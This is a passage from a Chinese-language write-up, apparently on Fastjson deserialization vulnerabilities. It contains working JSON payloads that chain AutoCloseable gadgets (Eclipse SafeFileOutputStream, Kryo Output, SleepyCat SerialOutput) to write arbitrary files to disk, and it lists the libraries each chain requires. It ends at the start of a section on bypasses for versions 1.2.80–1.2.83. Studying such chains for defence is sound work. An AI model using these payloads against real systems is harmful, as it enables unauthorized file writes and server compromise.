    payload：
    
    ```java
    {
        "@type":"java.lang.AutoCloseable", 
        "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream", 
        "tempPath":"/tmp/test", 
        "targetPath":"/tmp/pwned"
    }
    ```
    
    下面的base64编码是文件内容，最终是写到了`/tmp/pwned.txt`
    
    ```java
    {
        "stream": {
            "@type": "java.lang.AutoCloseable",
            "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
            "targetPath": "/tmp/pwned.txt",
            "tempPath": "/tmp/temp.txt"
        },
        "writer": {
            "@type": "java.lang.AutoCloseable",
            "@type": "com.esotericsoftware.kryo.io.Output",
            "buffer": "cHduZWQ=",
            "outputStream": {
                "$ref": "$.stream"
            },
            "position": 5
        },
        "close": {
            "@type": "java.lang.AutoCloseable",
            "@type": "com.sleepycat.bind.serial.SerialOutput",
            "out": {
                "$ref": "$.writer"
            }
        }
    }
    ```
    
    这个payload要求：
    
    - `org.eclipse.core.internal.localstore.SafeFileOutputStream` (通常来自Eclipse相关的库)
    - `com.esotericsoftware.kryo.io.Output` (来自`com.esotericsoftware:kryo`库)
    - `com.sleepycat.bind.serial.SerialOutput` (来自`com.sleepycat:je`库)

## 1.2.80-1.2.83

### 原理

依旧默认禁用@type并且扳了`AutoCloseable` 接口的利用链

### 绕过
